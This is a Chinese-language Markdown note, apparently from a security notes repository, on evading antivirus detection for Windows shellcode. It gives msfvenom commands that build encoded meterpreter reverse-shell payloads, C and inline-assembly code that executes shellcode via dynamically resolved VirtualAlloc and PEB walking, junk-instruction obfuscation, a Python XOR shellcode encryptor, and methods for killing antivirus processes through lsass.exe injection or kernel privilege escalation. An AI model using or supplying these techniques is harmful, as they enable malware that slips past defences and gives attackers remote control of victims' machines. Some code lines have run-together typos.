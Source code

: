 <!-- TOC -->

- [1. shellcode动态加载](#1-shellcode动态加载)
- [2. 敏感API动态调用](#2-敏感api动态调用)
    - [2.1. 绕过IAT检测：利用LoadLibrary和GetProcAddress动态获取函数地址](#21-绕过iat检测利用loadlibrary和getprocaddress动态获取函数地址)
    - [2.2. 绕过LoadLibrary检测：利用PEB动态获取LoadLibrary函数地址](#22-绕过loadlibrary检测利用peb动态获取loadlibrary函数地址)
    - [2.3. 绕过PEB获取LoadLibrary函数地址代码检测：花指令](#23-绕过peb获取loadlibrary函数地址代码检测花指令)
- [3. shellcode加密](#3-shellcode加密)
- [4. 虚拟机反调试](#4-虚拟机反调试)
- [5. 杀掉杀软（绕过OBOperationRegistration保护）](#5-杀掉杀软绕过oboperationregistration保护)
    - [5.1. ring3对抗](#51-ring3对抗)
        - [5.1.1. 不足](#511-不足)
        - [5.1.2. 杀软修复](#512-杀软修复)
    - [5.2. ring0对抗](#52-ring0对抗)
        - [5.2.1. 优点](#521-优点)
        - [5.2.2. 不足](#522-不足)
        - [5.2.3. 杀软修复](#523-杀软修复)

<!-- /TOC -->
# 1. shellcode动态加载
将攻击代码单独编译并静态的存储在数据段中，在程序执行时动态加载。shellcode可以自己编写或者使用 msf 生成。
```bash
msfvenom -p windows/meterpreter/reverse_http-e x86/shikata_ga_nai -i 12 -b '\x00' LHOST=[your remote ip addres] LPORT=[listeningport] -f c > hacker.c
msfvenom -p windows/meterpreter/reverse_tcp-e x86/shikata_ga_nai -i 12 -b '\x00' LHOST=[your remote ip addres]LPORT=[listening port] -f c > hacker.c
# 使用reverse_tcp_rc4对会话进行加密
msfvenom -p windows/meterpreter/reverse_tcp_rc4-e x86/shikata_ga_nai -i 12 -b '\x00' LHOST=[your remote ip addres]LPORT=[listening port] -f c > hacker.c
```
# 2. 敏感API动态调用
## 2.1. 绕过IAT检测：利用LoadLibrary和GetProcAddress动态获取函数地址
```c
    HMODULE hModule = LoadLibrary(_T("Kernel32.dll"));
    HANDLE shellcode_handler;
    FARPROC Address = GetProcAddress(hModule,"VirtualAlloc");   //拿到virtualalloc的地址
    _asm
    {
        push 40h  //push传参
        push 1000h
        push 29Ah
        push 0
        call Address  //函数调用
        movshellcode_handler, eax
    }
    memcpy(shellcode_handler, newshellcode,sizeof newshellcode);
    ((void(*)())shellcode_handler)();
```
## 2.2. 绕过LoadLibrary检测：利用PEB动态获取LoadLibrary函数地址
```c
_asm {
    mov esi, fs:[0x30]//得到PEB地址
    mov esi, [esi + 0xc]//指向PEB_LDR_DATA结构的首地址
    mov esi, [esi + 0x1c]//一个双向链表的地址
    mov esi, [esi]//得到第二个条目kernelBase的链表
    mov esi, [esi]//得到第三个条目kernel32链表（win10）
    mov esi, [esi + 0x8] //kernel32.dll地址
    mov hModule, esi
}
```
## 2.3. 绕过PEB获取LoadLibrary函数地址代码检测：花指令
```x86asm
_asm {
    mov esi, fs:[0x30]//得到PEB地址
    NOP
    NOP
    NOP
    NOP
    NOP
    mov esi, [esi + 0xc]//指向PEB_LDR_DATA结构的首地址
    NOP
    NOP
    NOP
    NOP
    mov esi, [esi + 0x1c]//一个双向链表的地址
    NOP
    NOP
    NOP
    NOP
    mov esi, [esi]//得到第二个条目kernelBase的链表
    NOP
    NOP
    NOP
    mov esi, [esi]//得到第三个条目kernel32链表（win10）
    NOP
    NOP
    mov esi, [esi + 0x8] //kernel32.dll地址
    NOP
    NOP
    mov hModule, esi
}
```
# 3. shellcode加密
```python
defgenerate_payload(shellcode):
    ba = bytearray(shellcode)
    newshellcode = []
    res = ''
    for b in ba:
        nchar = "\\"
        b = b ^ 113 ^ 0x77
        b = hex(b)
        for i in range(1, len(b)):
            nchar = nchar + b[i]
        res = res + nchar
        newshellcode.append(nchar)
    trash = "\\x00"
    nnshellcode = []
    for i in range(4 * len(newshellcode)):
        if i % 4 == 0:   #ou
            nnshellcode.append(newshellcode[int(i / 4)])
        else:
            nnshellcode.append(trash)
    fres = ''
    for i in nnshellcode:
        fres = fres + i
    print(fres)
```
这里是先将shellode和113以及0×77进行异或，再在shellcode中相邻的两个字节中填充三个\x00（空字节）。
# 4. 虚拟机反调试
[虚拟机检测与反沙箱](../反逆向工程/虚拟机检测与反沙箱.md)
# 5. 杀掉杀软（绕过OBOperationRegistration保护）
杀毒软件的自我保护可以通过OBOperationRegistration实现，当某些软件使用OpenProcess打开了杀毒软件的进程的时候，会触发这个回调，对打开的句柄进行降权，使得无法通过该句柄进行终结进程和读写内存的操作。
## 5.1. ring3对抗
有些进程如lsass.exe，csrss.exe，他们拥有具有完全权限的杀软句柄。通过ZwQuerySystemInformation查询伪句柄表，找到我们需要的句柄和lsass.exe的PID后，将shellcode注入lsass.exe，获取句柄然后杀掉杀软进程。
### 5.1.1. 不足
Wind10之后有PPL保护，但是PPL保护只保护system.exe，而有句柄的lsass.exe，csrss.exe却没有PPL保护。
### 5.1.2. 杀软修复
杀软只需要对lsass.exe，csrss.exe等进程中的句柄进行去除权限操作即可。
## 5.2. ring0对抗
通过提权漏洞进入ring0读写内存，进行句柄的权限提升，然后直接关闭杀软进程即可。
### 5.2.1. 优点
* 驱动是绿色正常驱动,不是黑名单驱动
* 拦截这些驱动加载会导致正常软件无法使用
* 无法判断自身是否被攻击
### 5.2.2. 不足
360会判断加载驱动程序的数字签名是否等于被加载驱动的数字签名，如果不等于则会提示有可疑驱动加载。可以通过包含个原程序通过原程序加载驱动即可.
### 5.2.3. 杀软修复
使用VT/SVM来HOOK API比如NtTerminateProcess等内核函数来实现增强版保护（360的晶核保护的原理）。